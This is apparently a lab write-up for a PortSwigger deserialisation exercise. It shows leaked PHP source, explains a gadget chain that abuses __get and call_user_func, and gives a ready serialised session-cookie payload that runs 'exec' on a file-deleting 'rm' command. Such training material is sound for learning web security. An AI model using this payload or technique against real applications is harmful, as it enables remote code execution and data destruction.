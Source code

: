 # Developing a custom gadget chain for PHP deserialisation

## Description

[This lab](https://portswigger.net/web-security/deserialization/exploiting/lab-deserialization-developing-a-custom-gadget-chain-for-php-deserialization) uses a serialisation-based session mechanism. By deploying a custom gadget chain, you can exploit its insecure deserialisation to achieve remote code execution. 

## Reproduction and proof of concept

1. Log in with `wiener:peter`. The session cookie contains a serialised PHP object. 

![Serialisation](../../_static/images/ser10.png)

2. The website references the file `/cgi-bin/libs/CustomTemplate.php` (find in **Target** tab). Get the source code by submitting a request using the `.php~` backup file extension.

Response:

```text
HTTP/1.1 200 OK
Content-Type: text/plain
Set-Cookie: session=; Secure; HttpOnly; SameSite=None
X-Frame-Options: SAMEORIGIN
Connection: close
Content-Length: 1396

<?php

class CustomTemplate {
    private $default_desc_type;
    private $desc;
    public $product;

    public function __construct($desc_type='HTML_DESC') {
        $this->desc = new Description();
        $this->default_desc_type = $desc_type;
        // Carlos thought this is cool, having a function called in two places... What a genius
        $this->build_product();
    }

    public function __sleep() {
        return ["default_desc_type", "desc"];
    }

    public function __wakeup() {
        $this->build_product();
    }

    private function build_product() {
        $this->product = new Product($this->default_desc_type, $this->desc);
    }
}

class Product {
    public $desc;

    public function __construct($default_desc_type, $desc) {
        $this->desc = $desc->$default_desc_type;
    }
}

class Description {
    public $HTML_DESC;
    public $TEXT_DESC;

    public function __construct() {
        // @Carlos, what were you thinking with these descriptions? Please refactor!
        $this->HTML_DESC = '<p>This product is <blink>SUPER</blink> cool in html</p>';
        $this->TEXT_DESC = 'This product is cool in text';
    }
}

class DefaultMap {
    private $callback;

    public function __construct($callback) {
        $this->callback = $callback;
    }

    public function __get($name) {
        return call_user_func($this->callback, $name);
    }
}

?>
```

3. The `__wakeup()` magic method for a `CustomTemplate` will create a new Product by referencing the `default_desc_type` and `desc` from the `CustomTemplate`.
4. The `DefaultMap` class has the `__get()` magic method, which will be invoked if you try to read an attribute that doesn't exist for this object. This magic method invokes `call_user_func()`, which will execute any function that is passed into it via the `DefaultMap->callback` attribute. The function will be executed on the `$name`, which is the non-existent attribute that was requested.
5. This gadget chain can be exploited to invoke `exec(rm /home/carlos/morale.txt)` by passing in a `CustomTemplate` object where:

```text
CustomTemplate->default_desc_type = "rm /home/carlos/morale.txt";
CustomTemplate->desc = DefaultMap;
DefaultMap->callback = "exec"
```

6. Follow the data flow in the source code: this will cause the `Product` constructor to try and fetch the `default_desc_type` from the `DefaultMap` object. As it doesn't have this attribute, the `__get()` method will invoke the callback `exec()` method on the `default_desc_type`, which is set to the shell command.
7. To solve the lab, Base64 and URL-encode the following serialized object, and pass it into the website via the session cookie:

```text
O:14:"CustomTemplate":2:{s:17:"default_desc_type";s:26:"rm /home/carlos/morale.txt";s:4:"desc";O:10:"DefaultMap":1:{s:8:"callback";s:4:"exec";}}
```

![Serialisation](../../_static/images/ser11.png)

## Exploitability

An attacker will need to log in to `wiener:peter`; and delete the `morale.txt` file from Carlos's home directory. 
